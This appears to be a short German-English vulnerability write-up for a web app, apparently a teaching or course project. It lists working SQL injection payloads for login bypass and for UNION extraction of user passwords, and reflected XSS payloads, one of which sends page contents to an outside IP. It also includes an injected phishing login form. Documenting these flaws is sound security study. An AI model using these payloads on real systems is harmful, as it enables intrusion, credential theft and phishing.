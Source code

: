 # SQL Injections
Kann momentan beispielsweise durchgeführt werden, folgendes 
__" OR 1 = 1 #__ in das login-Username feld eingetragen wird. Hierdurch kann man sich einloggen ohne credentials zu nutzen.

## Union Attack 
Query kann herausgefunden werden, indem man __%'__ in das suchfeld postet oder __"__ in das login-feld.
__%' ORDER BY 4--__ to find out how many columns are in the table since this is important for the attack.
__%' UNION SELECT NULL, NULL, username, passw, NULL FROM Users --__ to return userdata.

# Cross-Site Scripting
Reflected XSS
Insert <script>alert();</script>
https://www.imperva.com/learn/application-security/reflected-xss-attacks/#:~:text=Reflected%20XSS%20attacks%2C%20also%20known,enables%20execution%20of%20malicious%20scripts.
https://www.youtube.com/watch?v=T0vxdqvW9fU&list=LL&index=3
```js
<script>alert(document.cookie); </script>
<img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>
<IMG SRC=j&#X41vascript:alert('test2')>
<script>new Image().src="https://192.165.159.122/fakepg.php?output="+document.body.innerHTML</script>
```

# Brute-force attack
Is possible because we do not check how many requests have been sent by one user

# Broken Encryption
Möglich wegen veraltetem Hashalgorythmus (SHA256) und weil kein Salt verwendet wird sind alle hashes deterministisch 

# HTML Injections
(Phishing)
```html
<h3>Please login to proceed</h3>
<form action=http://www.google.com>
Username:<br>
<input type="username" name="username"></br>
Password:<br>
<input type="password" name="password"></br>
<br>
<input type="submit" value="Login"></br>
```
